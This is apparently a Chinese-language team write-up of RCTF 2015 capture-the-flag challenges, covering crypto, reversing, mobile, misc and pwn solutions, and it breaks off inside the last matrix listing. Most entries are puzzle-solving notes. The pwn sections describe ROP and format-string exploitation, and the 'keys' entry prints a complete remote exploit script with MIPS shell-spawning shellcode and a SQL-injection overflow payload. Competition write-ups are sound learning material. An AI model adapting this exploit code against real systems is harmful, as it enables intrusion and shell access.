






## sign in (MISC 100)

源代码里面搜 key，找到个串，在键盘上划一划完事

## welpwn (PWN 200)

读入明显过长，copy 会溢出，但是会被 `\0` 截断，而写 ROP 的话，64 位避免不了有 `\0`。
同时想要覆盖，输入前 16 位不能有 `\0`，然后我们就覆盖到返回地址处，改为一个 pop4ret，这样跳过读入前面一部分不可控区域。
然后就是个裸 ROP 了，不过由于没有 libc，故需要用下 dynELF 蛋疼下。

## Analysis nginx‘s log (MISC 50)

这道题记录了 sqlmap 的注入过程，稍微 urldecode 几句大概就知道什么时候开始爆破了。
找到开始爆破内容的地方，然后发现 sqlmap 对每一位最后都有一个 != 来结束，然后人工抓了一下数据，拼凑 flag。

## tank (REVERSE 200)

修改地图，让敌方坦克不能动，然后就随便虐，然后玩通关即可。



## decode the file (CRYPTO 100)

文件是 base64 编码过的，解码完搜索一下发现跟 github 上 的一个脚本一模一样。
但是仔细研究一下可以发现，解码后再编码出来某几位有差别。
想起来以前跟着一位交大大神打过一场俄罗斯人办的 olympic ctf 的比赛，当时也是一个base64编码的很长的文件，末位有所差别。

于是上gitub搜了一下writeup，找到一份 http://delimitry.blogspot.com/2014/02/olympic-ctf-2014-find-da-key-writeup.html，
直接拿博主的脚本跑了一下，结果就出来了……

## Flag system (MOBILE 100)

首先 file 发现是 android backup 文件，在 Github 找到 [android-backup-extractor](https://github.com/nelenkov/android-backup-extractor)。

然后由于 android-backup-extractor 只支持到 android backup v3，所以要么改改源码，要么把Android Backup文件的version bit改成3，都可以。
然后要把源本 backup 文件里的 Compressed 的那个 bit 改成 1。

解出来后，发现 com.example.mybackup 的 apk，大概看一下发现是用来操作一个 sqlite 数据库的，然后是 sqlcipher 加密的。
改 smali 来读取数据的话感觉有点麻烦，要改好多，然后又不会写 android，于是乎还是搞到 key 自己解密数据库。
首先发现 key 是 apk 签名加密，于是算算即可。
然后读 db 的时候坑了，先是 `brew install sqlcipher` 了一个，然后解密失败，搞得还怀疑算错密钥了，又重新折腾半天。
后来又用 `pip install` 了一个，写了个 python 去读，发现成功了。
于是目测就是版本问题了，感觉甚是无语。

## crack me (REVERSE 300)

一个基本的 crack me 程序，使用 ollydbg 动态调试，可以看到程序动态修改了自己的代码，然后跳到这段代码中。
同时内存里会出现一个可疑字符串 `22722272222227272222727a2222222222272222272222222222cfdceeeebb9fdbcdbbedfdede7ce9bebe0bb1e2ceab9e2bbbdecf9d8`，我们的输入经过处理后与这段字符串进行比较。

这段动态修改后的代码大意如下：

1. 首先将输入hex化

1. 将参数传入某个函数，经过动态跟踪发现该函数求了一个kmp算法里面会产生的数字数组，然后将该其加上0x19后与传入的字符串异或

1. 再将上一次的输出hex化

1. 执行了某个比较复杂的置换，这一步的置换经尝试与我们的输入无关，所以在od中动态将输入字符串改为 `\x00\x01\x02...\xnn` 之后可以得到置换方式

所以只要将上述步骤逆着来一下就可以，1，3，4 都比较好逆，2 的关键代码如下：

```
for ch in z:
    if ans!='':
        t=chr(ord(ch)^(cur+1+0x19))
        if ans[cur+1]!=t:
            cur=-1
        else:
            cur=cur+1
    t=chr(ord(ch)^(cur+0x19))
    ans+=t
```

但是发现这样得到的flag长得有点奇怪，虽然能过 crack me 但交上去不对，然后发现竟然是有多解的！！！

最后照着字符串修了一下得到正确 flag: `*&*_U_g3t_the_CrackM3_f1@9!`

## nobug (PWN 300)

首先NX并没有打开。

先看了一遍 ida 反编译的 c，程序就是个 base64 解码输出，并没有发现什么问题。
然后 0x804a8a0 这个全局变量存的就是解码之后的串，可以用来存 shellcode。

然后队友告诉我这里有个坑：

```
.text:08048BC0	push	offset sub_8048BD1
.text:08048BC5	push	offset sub_8048B32
.text:08048BCA	push	0
.text:08048BCC	lea	esp, [esp+4]
.text:08048BD0	retn
```

其中 sub_8048BD1 只是用来修复栈的貌似。
然后 sub_8048B32 中又进行了一次base64解码，然后跟着个格式化字符串的漏洞。
栈里的信息可以泄漏，但是并不能泄漏任意地址。
于是使用栈里存的ebp。

```
------------------------------
returnadress	0x0804xxxx
ebp2		ebp3
ebp2+4		xxxx
........	....
ebp1-4		xxxx
ebp1		ebp2
------------------------------
```

这是个栈，
我们的目的是修改 `*return adress` 为 0x804a8a0。
于是我们要有个指向 return adress 的指针。
现在我们要把 `*ebp2` 改为 return adress，我们又知道 `*ebp1 == ebp2`，
于是先修改 `*ebp2`，在修改 `*return adress`，就好啦。

## x xor md5 (CRYPTO 100)

首先查看拿到的文件，发现最后面几行都差不多。
根据题目名知道用异或，于是将那一行拿过来与每一行异或，得到了一个被很多 `\x00` 隔开的字符串.
尝试后发现将整个字符串再与 0x20 异或可以得到一个大部分正确的值。
看了下不太正常的字符发现它们相差 0x10 位，于是猜测那一行里有一个字符不对，试验后得到 `RCTF{We1l_d0n3_6ut_wh4t_i5_*key*}`。

交上去发现不对，根据题目名知道这里异或的值是个md5值，破解一下得到原文 that，带入到上面的 `*key*` 中后就是正确的 flag。

**顺便弱弱的问下出题人，为啥我们在开始那个字符弄错的情况下，拿到的错的 md5 竟然能正确解出 that，你们到底做了什么！！！**

## weeeeeb3 (WEB 150)

[Github](https://github.com/garzon/CTF-Writeups/tree/master/RCTF2015#weeeeeb3-web-150)

## asm (CRYPTO 200)

拿到一个汇编代码和一段密文，汇编编译失败所以就直接看了下。
首先有个 init 填满 128 个，然后encode看作 8 * 16 的方阵将其按从小到大与左边和上面（如果有的话）的元素异或，最后按 dfs 中序输出。

看懂之后直接逆着来一下，python shell过程如下，大概有不少冗余吧

```python
>>> c1
'473c1e38740b4b0714640c4652333461546e7c7c544657452a030c220536103243336e0b53782d666374681e0b017d6917131d6b1243784d0b5c39754c7e7a727a763e300b1005062d1e6350107f5c705d200727606f494f397700715578333647153c3a0d3e7a1a305c1544246d4213712c7049490c384a3b61447b4a326046'
>>> c2=c1.decode('hex')
>>> c2
'G<\x1e8t\x0bK\x07\x14d\x0cFR34aTn||TFWE*\x03\x0c"\x056\x102C3n\x0bSx-fcth\x1e\x0b\x01}i\x17\x13\x1dk\x12CxM\x0b\\9uL~zrzv>0\x0b\x10\x05\x06-\x1ecP\x10\x7f\\p] \x07\'`oIO9w\x00qUx36G\x15<:\r>z\x1a0\\\x15D$mB\x13q,pII\x0c8J;aD{J2`F'
>>> c3=''
>>> for i in range(128):
    j=127-i
    t=j%8
    ch=ord(c2[j])
    if t!=0:
        ch=ch^ord(c2[j-1])
    if j>=8:
        ch=ch^ord(c2[j-8])
    c3=chr(ch)+c3


>>> c3
'G{"&L\x7f@LSLvr`jLR@^\x1eFz!%s~GsRsuqgisQG]\x1dEy $r}FrQrtpfhrPF\\\x1cDx\'+q|EqPq{weoqWEC\x03K\x7f&*pcDpWpzvdnpVDB\x02J~%)wbKwVwyukmwUKA\x01I}$(vaJvUvxtjl'
>>> for i in range(128):
    if i==0:
        continue
    if ord(c3[0])^i+1==ord(c3[i]^i):
        if 2*i<128 and ord(c3[0])^i+2==ord(c3[2*i]^i):
            print i,


Traceback (most recent call last):
  File "<pyshell#48>", line 4, in <module>
    if ord(c3[0])^i+1==ord(c3[i]^i):
TypeError: unsupported operand type(s) for ^: 'str' and 'int'
>>> for i in range(128):
    if i==0:
        continue
    if ord(c3[0])^i+1==ord(c3[i]^i):
        if 2*i<128 and ord(c3[0])^i+2==ord(c3[2*i])^i:
            print i,


Traceback (most recent call last):
  File "<pyshell#50>", line 4, in <module>
    if ord(c3[0])^i+1==ord(c3[i]^i):
TypeError: unsupported operand type(s) for ^: 'str' and 'int'
>>> for i in range(128):
    if i==0:
        continue
    if ord(c3[0])^i+1==ord(c3[i])^i:
        if 2*i<128 and ord(c3[0])^i+2==ord(c3[2*i])^i:
            print i,


>>> for i in range(128):
    if i==0:
        continue
    if i+1<128 and ord(c3[0])^i+1==ord(c3[i+1])^i:
        if 2*i+1<128 and ord(c3[0])^i+2==ord(c3[2*i])^i:
            print i,


>>> for i in range(128):
    if i==0:
        continue
    if i+1<128 and ord(c3[0])^i+1==ord(c3[i+1])^i:
        print i,


18 81
>>> c4=''
>>> for ch in c3:
    c4+=chr(ord(ch)^18)


>>> c4
'Ui04^mR^A^d`rx^@RL\x0cTh37alUa@agcu{aCUO\x0fWk26`oT`C`fbtz`BTN\x0eVj59cnWcBciew}cEWQ\x11Ym48bqVbEbhdv|bDVP\x10Xl7;epYeDekgy\x7feGYS\x13[o6:dsXdGdjfx~'
>>> for i in range(128):
    if i==0:
        continue
    if i<128 and (ord(c3[0])^i)+1==ord(c3[i])^i:
        print i,


19 82
>>> c4=''
>>> for ch in c3:
    c4+=chr(ord(ch)^19)


>>> c4
'Th15_lS_@_easy_ASM\rUi26`mT`A`fbtz`BTN\x0eVj37anUaBagcu{aCUO\x0fWk48boVbCbhdv|bDVP\x10Xl59cpWcDciew}cEWQ\x11Ym6:dqXdEdjfx~dFXR\x12Zn7;erYeFekgy\x7f'
>>> c4[19]
'U'
>>>
```

## VB (REVERSE 300)

拿到一个 VB 程序，用 VB Decompilier 看一下可以得到大致逻辑，
可以看到进行了某种加密操作然后进行比较，用ollydbg下断点可以看到用户输入的加密结果。

经过简单尝试可以发现，程序的块大小为 128 bit，
找到一个很像 key 的 `}@$&]_#{a_b*lr=(`，大小也为 128 bit，而且两个块之间不会互相影响，可知是ECB模式。
于是找了下符合条件的块加密算法，试了下都不太对。

然后就一直在OD里面动态跟，发现某处对key作了一些改动，得到的key变为 `~C'%^\ xb\a)oq>+` (hex:7E 43 27 25 5E 5C 20 78 62 5C 61 29 6F 71 3E 2B)，后面就用这个 key 再生成子 key 了。

于是拿这个 key 用 AES 解密了一下，还不太对。
继续动态跟发现似乎还把结果十六进制字符串逆着排了一下，于是我们也把比较字符串再逆回去解密，就得到 `RCTF{VB6_i5_3a5y_rIgHt}\x00`……
去掉末尾 `\x00` 就是 flag。

**所以为什么 VB Decompilier 看到的类名是 clsDes？**

## keys (PWN 600)

蛋疼的 MIPS ……

一个函数里面，把 SQL 查出来的值 strcpy 到栈上了，于是可以 SQL 注入构造一个超长的，溢出。

栈上 + 0x24 处恰好有个地方指向 output 数组，提前控制使得 output 为 shellcode，然后找个跳到 sp + 0x24 处的 gadget。

要注意的是 shellcode 种进去之后，下一个操作的时候故意拖延一下，让他服务里的 read block 住，触发 context switch，刷缓存。

总而言之，细节一堆废话写的累，哪次有空了再来写吧，先还是贴程序（调试的东西都懒得整理了）：

```python
from utils import *

context(log_level = 'debug')

r = remote('59.77.135.196', 20006)

#payload = '\x52' * 0x1000
#payload = ''.join(map(chr,range(0x10, 256))).ljust(0x1000, '\x52')
payload = 'A' * 0x1000
r.sendline(payload)
r.recvline()
r.recvn(0x1000)

tab = '000102030405060708090a0b0c0d0e0f101112131415161718191a1b1c1d1e1f202122232425262728292a2b2c2d2e2f343536373831323334353a3b3c3d3e3f404e4f505152535455565758595a4142434445464748494a4b4c4d5b5c5d5e5f606e6f707172737475767778797a6162636465666768696a6b6c6d7b7c7d7e7f808182838485868788898a8b8c8d8e8f909192939495969798999a9b9c9d9e9fa0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebfc0c1c2c3c4c5c6c7c8c9cacbcccdcecfd0d1d2d3d4d5d6d7d8d9dadbdcdddedfe0e1e2e3e4e5e6e7e8e9eaebecedeeeff0f1f2f3f4f5f6f7f8f9fafbfcfdfeff'.decode('hex')
stkaddr = u32(r.recvn(4)) #u32(''.join(map(lambda x: chr(tab.index(x)), r.recvn(4))))
mid__uClibc_main = u32(r.recvn(4)) #u32(''.join(map(lambda x: chr(tab.index(x)), r.recvn(4))))

log.success('Some stack address: %s' % hex(stkaddr))
log.success('Mid __uClibc_main: %s' % hex(mid__uClibc_main))

debug = 0x004022A4
main = 0x4014D4

#payload = 'A' * 0x200 + '\x54' + '\x42'
#plain = "'" + "A" * 600 + "'"
#plain = "load_extension('libc.so.0', 'system')"
#plain = 'sqlite_version()'

''' Pivot! +0x9C is also controlled..
.text:00401C48                 lw      $ra, 0x9C($sp)   # Load Word
.text:00401C4C                 lw      $fp, 0x98($sp)   # Load Word
.text:00401C50                 addiu   $sp, 0xA0        # Add Immediate Unsigned
.text:00401C54                 jr      $ra              # Jump Register
.text:00401C58                 nop
'''

# 0x20 + 0x20 + 0x18

# For debug purpose
#shellcode = 'a4220224000000004000023c000000000800400000000000'.decode('hex')
shellcode = '66060624ffffd004ffff0628e0ffbd270110e4271ff08424e8ffa4afecffa0afe8ffa527ab0f02240c0101012f62696e2f7368'.decode('hex')
shellcode = '57044220'.decode('hex') * ((0x1000-len(shellcode))/4) + shellcode
log.info('Shellcode length: %d' % len(shellcode))
log.info('Encoded shellcode: %s' % shellcode.encode('hex'))

payload = shellcode

r.sendline(payload)
r.recvuntil('/bin/sh')

# time.sleep(5.0) # Wait 5 seconds to block "read" syscall

target = stkaddr - 0x2248 + 0x1240 + 0x400
#target = stkaddr - 0x2248 - 0x20
#prefix = 'A' * (0x9C - 0x54) + p32(target) + p32(0x4012D4)
prefix = 'A' * (0x9C - 0x58) + p32(target)
#prefix = p32(debug) * (0x200 / 4)

assert len(prefix) <= 0x200
plain = "hex(zeroblob(293))||CHAR(0x41,0x41, 0x54,0x0C,0x40,0)"
payload = prefix.ljust(0x200, '\x00') + '\x54' + '\x41' + "' UNION SELECT " + plain + " --"

for i in xrange(10):
    r.send(payload[i])
    time.sleep(0.3)
r.sendline(payload[10:])

r.recvuntil('\x54\x0c\x40')
#r.sendline(payload)
r.sendline('pwd')
r.recvuntil('/')
r.interactive()
#r.recvall()
```

## not sequence (REVERSE 100)

用 ida 查看 elf 文件, 查看其中两个 check 过程, 当中分别对输入数组进行了校验.

手动将求和的方程列出, 求解得到前 20 个元素, 发现为杨辉三角形.
结合 Count=20 的条件, 将 0~210 个元素作为输入, 获得正确输出.
去掉空格后求 md5 即为 flag.

## Where (MOBILE 300)

首先解压，查看这个本身的 class.dex 一无所获。
然后发现 assets 中有个 abc，META-INF 中有个 y，同时 CERT.RSA 严重过大。

观察可知 abc 是个 dex 头，那就是要找出对应的 body 了，然后 CERT.RSA 中随便看看会发现有 `KEY=Misc@inf0#fjhx11^@DEX=`，于是把后面内容拉出来。
内容最后有个 aes-128-cbc，于是尝试解密，用 python 解密未遂（尝试前 16 位和后 16 位是 IV 都不行），
队友用 openssl 解密能出看起来正常的内容，但最后一行报错，于是照抄队友 openssl 命令成功（后发现队友 vim 编辑自动加了个换行 `-_-#` 的锅）：

```
openssl aes-128-cbc -d -nosalt -in DEX -out DEX.dec -k Misc@inf0#fjhx11
```

把解出来的内容拼到 abc 后面，发现还是 010 模版跑还是没有内容。
然后发现头中各种 count 全是 0，于是计算一下修复下，
然而修复后校验还是不对，dex2jar 失败，baksmali 成功，发现是 MainActivity 中 onCreate 不对。

然后想起之前没用到的 y，感觉是用来替换修复 onCreate 的，然而，第一次用 010 + 刚玩 android，
找了半天没找到 onCreate 对应代码，还以为是代码和其余部分一样是一句话一句话打散的，以为走错路……

最后被队友告知 IDA 可以看 dex，于是轻松找到 onCreate 区域发现全是 0，果断替换之，校验正确，解开得 flag。

## Caesar deformation (MISC 100)

从图片的 Exif 信息中拿到一个奇怪的字符串，其中有许多重复字符，
把不重复的部分提取出来看作 01 串，然后不知道该怎么办，
后来的提示里说不一定是 8 位，某队友试了下 7 位一个字符发现在某 2 种情况下得到的字符都是 printable 的。

同样根据题目提示，我们试着将其在 string.printable 上移位一下，得到一个奇怪的字符串 `XCZF\nCaesar tr3nsformation s0 easy fun1\x0b`，
然后我们发现第 1 与 3 个字符在 string.printable 上左移 6 位就是 R 和 T，`\n` 与 `\x0b` 左移 6 位则是 { 和 }，空格左移则为 `_`，所以把它们移动一下得到 `RCTF{Caesar_tr3nsformation_s0_easy_fun1}` 交上去竟然就过了。

最后附上操作的 python 代码如下

枚举部分：

```python
s='DJECQDJEARTJECRTBAARDJECRTBACQDJACRTBECRTJEARTBACQTBAARTBECRDJECQTJAARDJECQTBEAQTBACQTJECQDBECRDJACQTBACQDJACRDBACRTBECQTBACQDBEARTBEARTJACQDJACQTJEARTBACQTJECQDBEAQTJEARDJEARDJACRDBEAQTBACQTJEARTJAARTJECQDJAARDJAAQTJEARTBACQTJEARTJACRDJECQDJAARDJAARDBACRTJACQTBECQDJACQDBACQDJEAR'

from pwn import *
def xor(s1,s2,z):
    rt = ''
    for i in range(len(s1)):
        if s1[i]==s2[i]:
            rt+=str(z[i])
        else:
            rt+=str(1-z[i])
    return rt

cmp = 'DJECQ'
a={}

cnt=0;
def dfs(s,dep):
    if dep == 5:
        ans = ''
        for i in range(len(s)/5):
            ans+=xor(cmp,s[i*5:(i+1)*5],a)
        flag=''
        for i in range(len(ans)/7):
            flag += pack(int(ans[i*7:(i+1)*7],2),8,endianness='big')
        print flag
        #print pack(int(ans,2),35*8,endianness='big')
        #print len(pack(int(ans,2),35*8,endianness='big'))
        #print hex(int(ans,2))[2:].decode('hex')
        global cnt
        cnt+=1
        print cnt
        return
    a[dep]=1
    dfs(s,dep+1)
    a[dep]=0
    dfs(s,dep+1)

print len(s)
dfs(s,0)
```

python shell部分：

```python
>>> import string
>>> s='395f627c4b5f59233b593a493c3a522c3b242d3a2b593c272d2c493b4f4923593b5b49243d2c504d'.decode('hex')
>>> s
"9_b|K_Y#;Y:I<:R,;$-:+Y<'-,I;OI#Y;[I$=,PM"
>>> t=string.printable
>>> t
'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c'
>>> a=[]
>>> for ch in s:
...     a.append(t.find(ch))
...
>>> a
[9, 88, 11, 91, 46, 88, 60, 64, 78, 60, 77, 44, 79, 77, 53, 73, 78, 65, 74, 77, 72, 60, 79, 68, 74, 73, 44, 78, 50, 44, 64, 60, 78, 84, 44, 65, 80, 73, 51, 48]
>>> len(t)
100
>>> t[1:]+t[:1]
'123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c0'
>>> for i in range(99):
...     t=t[1:]+t[:1]
...     print t.encode('hex')
...     print '--------------------------------'
...     q=''
...     for aa in a:
...             q+=t[aa]
...     print q
...

>>> t='4f505152535455565758595a2122232425262728292a2b2c2d2e2f3a3b3c3d3e3f405b5c5d5e5f607b7c7d7e20090a0d0b0c303132333435363738396162636465666768696a6b6c6d6e6f707172737475767778797a4142434445464748494a4b4c4d4e'.decode('hex')
>>> t
'OPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMN'
>>> q=''
>>> for aa in a:
...     q+=t[aa]
...
>>> q
'XCZF\nCaesar tr3nsformation s0 easy fun1\x0b'
```

## I can't hear that (MISC 150)

提供了一个 wav 文件, strings 到最后可以看到一个字符串形式的数组, 显然为有用信息.

将其提取出后发现为 0-8349 的一个排列, 查看 wav 文件元信息得到其 frame 数为 835000, 因此考虑根据数字指示将 wav 的帧重排列.

第 K 帧应放到其数组中对应值 (A[k]) 处, 重排列后播放 wav 得到 flag.

## login (WEB 300)

[Github](https://github.com/garzon/CTF-Writeups/tree/master/RCTF2015#login-web-300)

## Old Driver (REVERSE 400)

初步观察可知，题目应当是要 `OldDriverAPP.exe` 和 `OldDriverWin7.sys` 通信的过程寻找 Flag。

### OldDriverAPP.exe

这程序被加了一层Themida壳，真无聊，还是先看驱动吧。

### OldDriverWin7.sys

分析可知，驱动加载时主要干了这么几件事：

1. 通过修改 SSDT 的方法 Hook NtDeviceIoControlFile（并且做的时候关了中断忘记开了）。

1. 没了。

在 Hook NtDeviceIoControlFile 的处理函数中，驱动首先判断当前进程文件名是否是 `OldDriverAPP.exe`，如果是的话：

1. 第一次调用时，强行将 IoControlCode 的最低位字节修改为 `0x2F`.

1. 接下来的 512 次调用，根据驱动数据段的一个数组的值来强行修改 IoControlCode。这个数组是由 IoControlCode 为 `0x22E02F` 时触发的函数初始化的，内容为

    ```
    "sasawawasawawawawawasasasasasasasawasawasawawasawawasawawasasawasawasawasasasawasasawasasawasasasawasawawasasasasasa"
    "sawawasawawawawawawawawawasawasawawawasasawasasawawawawawawasawawasawasasawawawasasasasasawawawasawasawasasawawawasa"
    "sasasawawawasawasasasawasawawawasawawawasasasasasasasasasasasawasawawawawawasawawasawasawasawasawasasasawawasawawawa"
    "wasawasawawasawasasawawawawasasawasawasasasawasasawasawasasawasasawawasawawawasasawasasasasasasawasawawawawawawawasa"
    "sawasasawawawawawasawasawasasawawasawawawasawawaf"
    ```

对于对应位置上是 `w`, `s`, `a`, `d`, `f` 的情况，分别将 IoControlCode 修改为`0x22E037`, `0x22E03B`, `0x22E03F`, `0x22E043`, `0x22E047`。

分析对应 IoControlCode 的 handler 可以大概了解到验证部分的逻辑。

### OldDriverAPP.exe

脱这个壳太麻烦了，可以选择用 OllyDbg 带 StrongOD 插件在 Windows XP/7 上带壳调试。
StrongOD 开启大部分隐藏选项之后即可躲过 Themida 的检测。

在 OllyDbg 中运行起来程序之后查看 `401000` 处的内存，可以找到关键逻辑：

1. 接受输入的一个用户名和密码。

1. 对于用户名里的前 512 个字符（不够长的话多出来的部分就是0），发送一个请求给驱动，如果是 w/s/a/d/f，发送对应的control code，否则发送一个奇怪的值。如果是a的话，额外读入两个整数一并传递给驱动。但是这个并不重要，因为……驱动里用hook的方式强行修改了这512个control code是什么。

1. 向驱动发送一个 "d" 对应的 control code，驱动中对应的逻辑是根据之前 asw 构造的矩阵验证用户名。

1. 验证密码开头是不是 d4iDaiwo_，是的话，开始验证密码。

1. 验证通过的话，输出 flag is password。

    到这里，结合驱动里的逻辑，我们发现 flag 跟用户名完全没关系，不用在意用户名及验证用户名相关的逻辑。

1. 发送一个 "f" 对应的 control code 给驱动，传入的 buffer 里面的 status 设置为 0xA，驱动收到之后设置传入的 buffer 里面的 status 为 0xB，初始的 key 值是利用当前 SSDT 里 NtDeviceIoControlFile 的指针算出来的（基本的防hook），计算可知这个值是 0x1490。

1. 对于密码里接下来的 32 个字符，每两位一组，看作一个 unsigned short 和 key 值 xor，把 xor 之后的 key 值传给驱动。

1. 检查status是否被驱动设置为 0xC 了，如果是的话，再发一个 f 请求给驱动要求验证。驱动如果认为正确，会把 status 设置为 0xD。

驱动里把每次收到的 key 值作为 Big Endian 的 unsigned short 存到了数组里，然后按照每个数从低位到高位，其他升序的顺序填充进一个 16x16 的矩阵。

然后计算 AX，跟 B 比较，其中 A、B 是硬编码在驱动里的两个矩阵，X 是根据 flag 填充的矩阵。

最后计算 flag 程序如下：

```
sage: user_expected
[ 38  42  57  53  54  64  56  67  19  53  43  45  34  85  64  51]
[ 48  46  67 116  90 100  58  74  57  86  52  50  67 105  52  96]
[ 33  37  37  55  52  81  42  56  53  52  37  44  34  76  55  52]
[ 42  24  27  63  72  64  45  48  37  36  39  37  40  71  46  62]
[ 33  25  42  72  66  51  33  57  38  57  50  33  54  80  40  71]
[ 24  48  45  63  62  87  58  59  61  64  43  54  58  85  63  63]
[ 43  32  59  58  60  69  31  67  40  56  59  47  39  83  66  53]
[ 50  41  35  82  90  92  44  71  75  71  65  50  53 112  69  98]
[ 54  38  79  61  65  90  44  80  37  69  63  53  49  86  72  51]
[ 43  54  35  71  68  74  34  66  47  45  62  43  35  85  73  78]
[ 31  40  58  60  69  88  52  76  50  64  59  47  54  90  62  68]
[ 47  36  41  58  61  69  32  45  36  38  43  46  14  79  48  62]
[ 29  48  65  57  64  85  30  67  54  72  72  54  55  86  68  64]
[ 61  46  60  76  74  74  53  53  47  58  50  69  33 106  69  72]
[ 45  45  73  71  70 101  54  63  46  68  48  59  51  82  52  58]
[ 30  46  58  65  61  80  39  55  51  71  52  48  60  76  46  62]

sage: flag_expected
[ 352  336  134  423  441  365  535    0  514  500  288  825  435  365  315  825]
[ 524  452  184  525  518  491  709    0  715  638  430 1164  595  491  526 1164]
[ 370  330  122  372  376  343  485    0  459  433  257  796  388  343  311  796]
[ 297  294  138  320  343  348  460    0  469  425  247  753  381  348  302  753]
[ 325  316  124  381  368  356  474    0  497  457  290  802  428  356  342  802]
[ 431  383  134  460  436  414  553    0  539  517  304  937  474  414  379  937]
[ 380  344  135  441  444  397  537    0  532  491  285  862  440  397  341  862]
[ 465  458  181  496  496  481  647    0  654  606  368 1098  550  481  423 1098]
[ 446  391  157  509  520  463  632    0  611  559  315  991  501  463  413  991]
[ 399  370  165  432  420  397  590    0  552  525  323  913  464  397  328  913]
[ 422  386  140  474  463  435  594    0  570  559  316  968  502  435  393  968]
[ 326  311  144  345  374  322  481    0  476  445  276  755  384  322  281  755]
[ 449  391  141  520  476  437  585    0  575  550  320  970  503  437  398  970]
[ 430  421  181  491  526  447  614    0  642  583  360 1001  513  447  375 1001]
[ 456  388  160  478  481  439  610    0  598  552  329  986  501  439  434  986]
[ 417  365  137  457  420  397  533    0  532  497  307  900  466  397  395  900]

sage: user_expected \ flag_expected
[0 1 1 0 1 1 1 0 1 0 0 1 0 1 0 1]
[1 1 1 1 0 0 1 0 0 1 1 1 1 0 0 1]
[1 0 0 1 1 1 1 0 1 1 1 1 1 1 1 1]
[1 0 0 0 0 0 1 0 1 0 1 1 0 0 1 1]
[0 0 1 0 0 1 0 0 1 1 0 1 1 1 1 1]
[1 0 0 0 0 0 1 0 0 0 0 1 0 0 1 1]
[0 1 0 0 1 1 1 0 1 1 0 1 0 1 0 1]
[0 0 0 0 0 0 1 0 0 1 0 1 1 0 0 1]
[1 1 0 0 0 1 0 0 0 0 0 1 0 1 0 1]
[1 1 0 1 1 0 0 0 1 0 0 1 0 0 1 1]
[0 1 0 1 1 1 1 0 1 1 0 1 0 1 0 1]
